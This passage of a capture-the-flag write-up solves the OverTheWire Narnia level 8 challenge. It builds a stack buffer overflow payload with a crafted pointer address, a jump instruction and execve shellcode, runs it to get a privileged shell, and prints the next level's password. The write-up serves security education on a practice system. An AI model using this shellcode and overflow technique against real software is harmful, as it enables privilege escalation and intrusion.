 Now, one way to exploit this is constructing a payload that look like this: 

    padding (20 bytes) + SPECIALLY_CRAFTED_ADDRESS (4 bytes) + EBP_FILLING (4 bytes) + JMP_ESP_INSTRUCTION (4 bytes) + SHELLCODE (n bytes) # (XXX)

Regarding the `SPECIALLY_CRAFTED_ADDRESS`, because of the fact that the environment
outside gdb is different from the one in its inside, we need to figure out what is the
actual address (which will not change) of the `blah` pointer after the program receives
20 bytes from `argv[1]`. One way to do this is the following: 

    narnia8@gibson:~$ /narnia/narnia8 $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41") | xxd 
    00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
    00000010: 4141 4141 12d4 ffff b8d1 ffff 0192 0408  AAAA............
    00000020: 12d4 ffff 0a                             .....

As we can see the value of `blah` is "0xffffd412". The shellcode we will be using is 35 bytes long. 
And we also overflow the buffer with 12 more bytes (so 47 in total) as we can see at (XXX). So with the command
below, one can easily find what should be the actual address of `blah` after overflowing with the 
malicious payload. 

    narnia8@gibson:~$ python3 -c 'print("{:8x}".format(0xffffd412-47))'
    ffffd3e3

So our payload should look like this: 

    |----------------------------------------20------------------------------------||----4---------||---EBP---------||---jmp instr--||--------------shellcode---|
    \x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xe3\xd3\xff\xff\x90\x90\x90\x90\x5d\x39\xea\xf7\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80

After executing, one can spawn a shell with a privileged owner and grab the password
for the next `narnia9` level.

    narnia8@gibson:~$ /narnia/narnia8 $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xe3\xd3\xff\xff\x90\x90\x90\x90\x5d\x39\xea\xf7\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80") 
    AAAAAAAAAAAAAAAAAAAA��������]9��j1X1�̀�É�jFX̀�
                                                Rhn/shh//bi���̀
    $ id
    uid=14009(narnia9) gid=14008(narnia8) groups=14008(narnia8)
    $ cat /etc/narnia_pass/narnia9
    1FFD4HnU4K

Password: **1FFD4HnU4K**


CHALLENGE SOLVED!



## References

[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html

[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner

[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html

